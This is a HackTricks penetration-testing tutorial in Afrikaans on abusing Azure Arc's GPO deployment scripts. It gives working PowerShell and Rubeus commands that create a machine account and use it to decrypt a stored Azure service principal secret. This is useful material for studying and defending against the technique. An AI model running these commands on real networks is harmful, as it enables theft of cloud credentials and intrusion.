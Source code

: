 # Az - Arc kwetsbare GPO Ontplooi Skrip

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Identifisering van die Probleme

Azure Arc stel die integrasie van nuwe interne bedieners (aangeslote domeinbedieners) in Azure Arc via die Groep Beleidsobjek metode moontlik. Om dit te fasiliteer, bied Microsoft 'n ontplooiing toolkit wat nodig is om die aanmeldproses te begin. Binne die ArcEnableServerGroupPolicy.zip lêer, kan die volgende skripte gevind word: DeployGPO.ps1, EnableAzureArc.ps1, en AzureArcDeployment.psm1.

Wanneer uitgevoer, voer die DeployGPO.ps1 skrip die volgende aksies uit:

1. Skep die Azure Arc Servers Aanmeld GPO binne die plaaslike domein.
2. Kopieer die EnableAzureArc.ps1 aanmeld skrip na die aangewese netwerkdeel wat geskep is vir die aanmeldproses, wat ook die Windows installer pakket bevat.

Wanneer hierdie skrip uitgevoer word, moet stelselsadmins twee hoofparameters verskaf: **ServicePrincipalId** en **ServicePrincipalClientSecret**. Daarbenewens vereis dit ander parameters soos die domein, die FQDN van die bediener wat die deel huisves, en die deelnaam. Verdere besonderhede soos die huurder ID, hulpbron groep, en ander nodige inligting moet ook aan die skrip verskaf word.

'n Geënkripteerde geheim word in die AzureArcDeploy gids op die gespesifiseerde deel gegenereer met behulp van DPAPI-NG enkripsie. Die geënkripteerde geheim word in 'n lêer genaamd encryptedServicePrincipalSecret gestoor. Bewyse hiervan kan gevind word in die DeployGPO.ps1 skrip, waar die enkripsie uitgevoer word deur ProtectBase64 met $descriptor en $ServicePrincipalSecret as invoer. Die descriptor bestaan uit die Domein Rekenaar en Domein Beheerder groep SIDs, wat verseker dat die ServicePrincipalSecret slegs deur die Domein Beheerders en Domein Rekenaar sekuriteitsgroepe ontkrip kan word, soos opgemerk in die skrip kommentaar.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ons het die volgende toestande:

1. Ons het suksesvol die interne netwerk binnegedring.
2. Ons het die vermoë om 'n rekenaarrekening binne Active Directory te skep of te beheer.
3. Ons het 'n netwerkdeel ontdek wat die AzureArcDeploy-gids bevat.

Daar is verskeie metodes om 'n masjienrekening binne 'n AD-omgewing te verkry. Een van die mees algemene is om die masjienrekeningkwota te benut. 'n Ander metode behels die kompromittering van 'n masjienrekening deur kwesbare ACL's of verskeie ander miskonfigurasies.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Sodra 'n masjienrekening verkry is, is dit moontlik om met hierdie rekening te autentiseer. Ons kan of die runas.exe-opdrag met die netonly-vlag gebruik of pass-the-ticket met Rubeus.exe gebruik.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Deur die TGT vir ons rekenaarrekening in geheue te stoor, kan ons die volgende skrip gebruik om die dienshoofsekrte te ontsleutel.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Alternatiewelik kan ons [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) gebruik.

Op hierdie punt kan ons die oorblywende inligting versamel wat nodig is om met Azure te verbind vanaf die ArcInfo.json-lêer, wat op dieselfde netwerkdeel as die encryptedServicePrincipalSecret-lêer gestoor is. Hierdie lêer bevat besonderhede soos: TenantId, servicePrincipalClientId, ResourceGroup, en meer. Met hierdie inligting kan ons Azure CLI gebruik om as die gecompromitteerde service principal te autentiseer.

## Verwysings

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsieplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
